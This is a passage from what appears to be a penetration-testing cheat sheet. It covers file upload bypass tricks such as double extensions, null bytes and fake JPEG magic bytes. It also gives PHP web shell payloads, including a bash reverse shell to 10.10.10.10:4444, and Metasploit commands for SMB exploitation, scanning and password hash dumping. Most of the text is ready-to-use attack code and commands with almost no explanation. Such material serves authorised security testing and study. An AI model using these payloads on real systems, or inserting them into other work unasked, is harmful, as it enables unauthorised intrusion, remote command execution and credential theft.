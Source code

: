 #### File Upload Bypasses
Prerequisites:
- Upload functionality
- Understanding of server-side filtering

Bypass Techniques:
1. Extension Tricks:
   ```
   shell.php.jpg
   shell.php%00.jpg
   shell.php....
   shell.php;.jpg
   ```

2. Content-Type Modification:
   ```http
   Content-Type: image/jpeg
   ```

3. Magic Bytes:
   ```bash
   # Add PHP magic bytes
   echo -e "\xFF\xD8\xFF\xE0" > shell.php
   cat legit.jpg shell.php > malicious.jpg
   ```
Payload Examples
```php
<?php system($_GET['cmd']); ?>
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1'");?>
```

### Metasploit Usage

#### Basic Operations
```bash
# Start Console
msfconsole -q

# Search Modules
search type:exploit platform:windows smb
search type:auxiliary scanner

# Use Module
use exploit/windows/smb/psexec
use auxiliary/scanner/smb/smb_version

# Show Options
show options
show targets
show payloads
```

#### Common Modules
```bash
# SMB Modules
use auxiliary/scanner/smb/smb_version
use auxiliary/scanner/smb/smb_enumshares
use exploit/windows/smb/psexec

# Web Modules
use auxiliary/scanner/http/http_version
use auxiliary/scanner/http/brute_dirs
use exploit/multi/http/jenkins_script_console

# Other Useful Modules
use post/windows/gather/hashdump
use post/linux/gather/hashdump
```
